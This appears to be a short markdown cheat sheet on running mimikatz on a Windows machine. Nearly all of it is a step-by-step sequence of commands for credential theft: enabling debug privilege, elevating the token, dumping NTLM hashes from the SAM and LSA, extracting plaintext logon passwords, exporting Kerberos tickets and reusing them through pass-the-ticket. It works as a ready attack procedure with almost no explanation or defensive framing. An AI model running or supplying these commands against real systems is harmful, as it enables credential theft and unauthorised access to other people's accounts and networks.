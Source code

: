 ### mimikatz
As an early stage enumeration item, worth running: `Get-LocalUser` to enumerate local users on a machine.

To start run `.\mimikatz.exe` in a Powershell session. You'll then be dumped in an interactive session in which the commands below can be run.

Enable the `SeDebugPrivilege` access right: 
```cmd
privilege::debug
```
Elevate privilege (prerequisite for `lsadump::sam`):
```cmd
token::elevate
```
Extract all NTLM hashes from the SAM:
```cmd
lsadump::sam
```
If for whatever reason you are not getting hashes from the correct domain (ie. local rather than the Domain) then alternatively try:
```
lsadump::lsa /inject
```
Extract plaintext passwords from all available sources:
```cmd
sekurlsa::logonpasswords
```
Get all tickets stored in memory:
```cmd
sekurlsa::tickets
```
Dump a specific users ticket to a file:
```cmd
sekurlsa::tickets /export /filter:"<username>"
```
To use the ticket:
```cmd
kerberos::ptt you-ticket-file.kirbi
```
Check your tickets:
```cmd
kerberos::list
```